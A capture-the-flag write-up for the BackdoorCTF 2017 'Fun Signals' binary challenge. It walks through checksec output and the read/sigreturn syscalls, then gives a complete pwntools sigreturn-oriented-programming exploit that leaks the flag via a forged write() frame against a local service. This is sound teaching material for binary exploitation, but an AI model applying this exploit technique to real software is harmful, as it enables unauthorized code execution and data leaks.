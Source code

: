 # BackdoorCTF 2017 Fun Signals

## Challenge File

[player_bin](./funsignals_player_bin)

## file + checksec

file:

```
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

Note that the binary is **statically linked**.

checksec:

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x10000000)
RWX:      Has RWX segments
```

There is no protection.

## Program Analysis

![Program Analysis](./program_analysis.png)

The binary is minimalist (no function name). Starting from the `__start` label, we find two `syscall` instructions which look suspicious. The first `syscall` invokes `read(0, $rsp, 0x400)` and the second `syscall` invokes `sigreturn()`. This is an obvious hint for SROP.

## Solution

There is a syscall instruction available at 0x10000015. The flag is inside the binary, so we can just forge a sigreturn frame that calls `write(1, &flag, 50)`. This process can be automated using the `SigreturnFrame()` module in Pwntools:

```python
frame = SigreturnFrame()
frame.rax = 1 # syscall number for write()
frame.rdi = 1 # stdout = 1
frame.rsi = 0x10000023 # the address of flag
frame.rdx = 50 # leak 50 bytes of data
frame.rip = 0x10000015 # the address of syscall
```

## Exploit

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./funsignals_player_bin")
context.arch = 'amd64'

def srop(rax, rdi, rsi, rdx, rip):
    frame = SigreturnFrame()
    frame.rax = rax # syscall number for write()
    frame.rdi = rdi # stdout=1
    frame.rsi = rsi # the address of flag
    frame.rdx = rdx # leak how many bytes of data
    frame.rip = rip # the address of syscall

    return frame

def exploit():
    # socat tcp4-listen:1337,reuseaddr,fork exec:./funsignals_player_bin
    r = remote('127.0.0.1', 1337)
    frame = srop(
    rax=constants.SYS_write,
    rdi=constants.STDOUT_FILENO,
    rsi=elf.sym['flag'],
    rdx=50,
    rip=elf.sym['syscall'],
)
    r.send(bytes(frame))
    print(r.readall())

if __name__ == "__main__":
    exploit()
```